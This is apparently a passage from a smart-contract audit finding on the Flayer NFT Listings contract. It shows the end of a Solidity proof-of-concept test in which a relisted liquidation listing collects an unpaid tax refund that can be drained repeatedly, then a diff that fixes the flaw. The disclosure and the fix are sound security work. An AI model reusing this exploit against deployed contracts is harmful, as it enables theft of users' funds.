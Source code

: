 ```solidity
    });

    // Confirm that the listing is created and is liquid as expected
    _listing = listings.listings(address(erc721a), _tokenId);
    assertEq(_listing.owner, _buyer);
    assertEq(_listing.duration, 7 days);
    assertEq(_listing.floorMultiple, 400);

    // The _owner receives additionally 3 ether from relisting
    assertEq(token.balanceOf(_owner), 3.95 ether, 'Owner has 3 ether more from relisting');
    // The _owner also receives additionally ~0.05 ether tax refund, which they didn't pay
    assertGt(listings.balances(_owner, address(token)), 0.05 ether, 'Tax refund of 0.05 ether is stolen');

    // 6. The _buyer cancels the listing, and receives the refund, as usual
    listings.cancelListings(address(erc721a), _tokenIdToArray(_tokenId), false);
    
    // The final state: 
    // the attacker holds the same NFT, the same 4 ether of collection token
    // plus ~0.05 ether of the stolen tax refund.
    assertEq(erc721a.ownerOf(_tokenId), _buyer, 'Mow buyer holds our NFT token');
    assertEq(token.balanceOf(_owner), 3.95 ether, 'Owner has 3.95 ether tokens');
    assertEq(token.balanceOf(_buyer), 0.05 ether, 'Buyer has 0.05 ether tokens');
    assertGt(listings.balances(_owner, address(token)), 0.05 ether, 'Owner has 0.05 ether of stolen refund in escrow');
    assertEq(listings.balances(_buyer, address(token)), 0, 'Buyer has no escrow');

    // From that point on the attack can be repeated indefinitely,
    // stealing 0.05 ether each time, until the contract is drained completely.
}
```

### Mitigation

```diff
diff --git a/flayer/src/contracts/Listings.sol b/flayer/src/contracts/Listings.sol
index eb39e7a..7e586ee 100644
--- a/flayer/src/contracts/Listings.sol
+++ b/flayer/src/contracts/Listings.sol
@@ -640,10 +640,12 @@ contract Listings is IListings, Ownable, ReentrancyGuard, TokenEscrow {
         (bool isAvailable, uint listingPrice) = getListingPrice(_collection, _tokenId);
         if (!isAvailable) revert ListingNotAvailable();
 
-        // We can process a tax refund for the existing listing
-        (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
-        if (_fees != 0) {
-            emit ListingFeeCaptured(_collection, _tokenId, _fees);
+        // We can process a tax refund for the existing listing if it isn't a liquidation
+        if (!_isLiquidation[_collection][_tokenId]) {
+            (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
+            if (_fees != 0) {
+                emit ListingFeeCaptured(_collection, _tokenId, _fees);
+            }
         }
 
         // Find the underlying {CollectionToken} attached to our collection
```